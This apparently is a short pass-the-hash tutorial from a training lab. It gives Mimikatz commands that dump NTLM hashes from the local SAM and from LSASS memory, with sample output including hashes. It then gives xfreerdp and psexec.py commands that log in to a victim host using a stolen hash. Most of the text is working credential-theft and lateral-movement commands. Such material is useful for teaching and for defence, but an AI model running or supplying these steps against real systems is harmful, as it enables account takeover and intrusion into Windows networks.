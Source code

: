 Pass-the-hash simply means passing the hash as it is. It also means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can **Pass-the-Hash** (PtH) and authenticate successfully.

To extract NTLM hashes, we can either use Mimikatz to read the local SAM or extract hashes directly from Local Security Authority Subsystem Service(LSASS) memory.

**Extracting NTLM hashes from local SAM:**

```powershell
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
  
### This extracts hashes from local users on the machine
```

**Extracting NTLM hashes from LSASS memory:**

```powershell
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484

### This extracts hashes from local users and any domain user that has logged onto the machine
```

After extracting the NTLM hashes we can pass it using some of the methods below:

RDP:

```bash
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

Psexec:

```bash
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```
